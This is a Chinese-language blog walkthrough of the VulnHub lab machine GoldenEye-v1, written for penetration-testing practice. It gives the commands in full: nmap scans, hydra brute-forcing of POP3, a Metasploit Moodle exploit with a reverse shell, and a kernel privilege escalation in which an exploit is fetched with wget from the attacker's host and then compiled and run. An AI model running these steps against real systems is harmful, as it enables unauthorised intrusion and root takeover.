 ```yaml
---
layout: post
title: 'vulnhub靶机：GoldenEye-v1'
date: "2025-09-21T00:43:30Z"
---
```

vulnhub靶机：GoldenEye-v1
======================

扫描挖掘本地的IP地址信息：

`nmap -sT 192.168.111.101`

  
发现开放了25,80端口

访问http://192.168.111.101:80  
  
提示可以访问/sev-home/ ,访问后让我们输入账号密码，查看页面原代码 访问/terminal.js  
  
提示账号Boris，Natalya和密码，将密码进行解码，登录/sev-home/  
  
得到提示：is very effective, we have configured our pop3 service to run on a very high non-default port  
使用nmap探测端口  
`nmap -p- 192.168.111.101 -T4`  
  
`nmap -sS -sV -T4 -A -p55006,55007 192.168.111.101`  
  
这段信息看出这两个端口开放了pop3的mail服务的，通过/terminal.js页面，在注释中发现一条内容，指出目标系统正在使用默认密码。  
我们已知账号，通过hydra爆破，账号为Boris，Natalya，写在uname.txt文件夹  
`hydra -L uname.txt -P /usr/share/wordlists/fasttrack.txt -s 192.168.111.101:55007 pop3`  
  
用户：boris 密码：secret1!  
用户：natalya 密码：bird  
通过NC登录pop3查看邮件信封内容枚举：  
  
查看前三个邮件  
  
  
  
第二封来自用户“natalya”，称她可以破坏鲍里斯的密码。  
第三封邮件可以看出有一份文件用了GoldenEye的访问代码作为附件进行发送，并保留在根目录中。但我们无法从此处阅读附件。  
继续登录natalva账号查看邮件  
  
  
两封邮件：第一封邮件：  
娜塔莉亚，请你停止破解鲍里斯的密码。 此外，您是 GNO 培训主管。 一旦学生被指定给你，我就会给你发电子邮件。  
此外，请注意可能的网络漏洞。 我们获悉，一个名为 Janus 的犯罪集团正在追捕 GoldenEye。

第二封邮件：  
好的 Natalyn 我有一个新学生给你。 由于这是一个新系统，如果您看到任何配置问题，请告诉我或鲍里斯，尤其是它与安全有关的问题……即使不是，也只需以“安全”为幌子输入……它就会 轻松升级变更单:)  
好的，用户信用是：  
用户名：xenia  
密码：RCP90rulez！  
鲍里斯验证了她是一个有效的承包商，所以只需创建帐户好吗？  
如果您没有外部内部域的 URL：severnaya-station.com/gnocertdir  
\*\*请务必编辑您的主机文件，因为您通常在远程离线工作....  
由于您是 Linux 用户，因此只需将此服务器 IP 指向 /etc/hosts 中的 severnaya-station.com。

我们来设置本地hosts文件  
`nano /etc/hosts`  
  
进行修改

访问severnaya-station.com/gnocertdir地址：  
  
点击：Intro to GoldenEye可以进行登录，使用natalya邮箱第二封邮件获得的用户名密码登录：  
  
登录成功！  
Home / ▶ My profile / ▶ Messages --->发现有一封邮件，内容发现用户名doak  
  
爆破用户名doak的邮件  
hydra -L uname.txt -P /usr/share/wordlists/fasttrack.txt 192.168.111.101 -s 55007 pop3  
  
得到密码，继续使用nc登录pop3，访问邮件，得到信息：  
  
邮件消息说，为我们提供了更多登录凭据以登录到应用程序。让我们尝试使用这些凭据登录。  
用户名：dr\_doak  
密码：4England!

使用新账号登录cms：  
  
登录成功，在：Home / ▶ My home 右边发现： s3cret.txt 另外发现这是Moodle使用的2.2.3版本  
  
  
访问severnaya-station.com/dir007key/for-007.jpg  
  
下载到本地：  
`wget http://severnaya-station.com/dir007key/for-007.jpg`  
  
根据邮件提示让我们检查图片内容，下载图片后，我们可以使用：  
binwalk（路由逆向分析工具）  
exiftool（图虫）  
strings（识别动态库版本指令）  
等查看jpg文件底层内容！  
  
base64解码  
  
线索中说，这是管理员的密码，通过admin账号登录cms  
  
登录成功，可以搜索此版本的漏洞，我使用rce进行利用  
使用msf  

msfconsole ---进入MSF框架攻击界面  
search moodle ---查找 moodle类型 攻击的模块  
use 1 ---调用0 exploit/multi/http/moodle\_cmd\_exec调用攻击脚本  
set username admin ---设置用户名：admin  
set password xWinter1995x! ---设置密码：xWinter1995x!  
set rhost severnaya-station.com ---设置：rhosts severnaya-station.com  
set targeturi /gnocertdir ---设置目录： /gnocertdir  
set payload cmd/unix/reverse ---设置payload：cmd/unix/reverse  
set lhost 192.168.4.231 ---设置：lhost 192.168.4.231（需要本地IP）  
exploit ----执行命令

成功拿下shell  

进行内核提权：  
`uname -a`  
  
`searchsploit 3.13`  
  
`cp /usr/share/exploitdb/exploits/linux/local/37292.c 1.c`  

无法进行GCC编译，需要改下脚本为cc  
gedit 1.c / nano 1.c ---文本打开  
第143行将gcc改为cc ---编写下  
然后在本目录下开启服务器：  
`python -m http.server 8081`  
反弹shell中执行`wget http://192.168.111.25/1.c`  
  
`cc 1.c shell`  
  
`chmod 777 shell`  
`./shell`  
`whoami`  
`cd /root`  
  
打完收工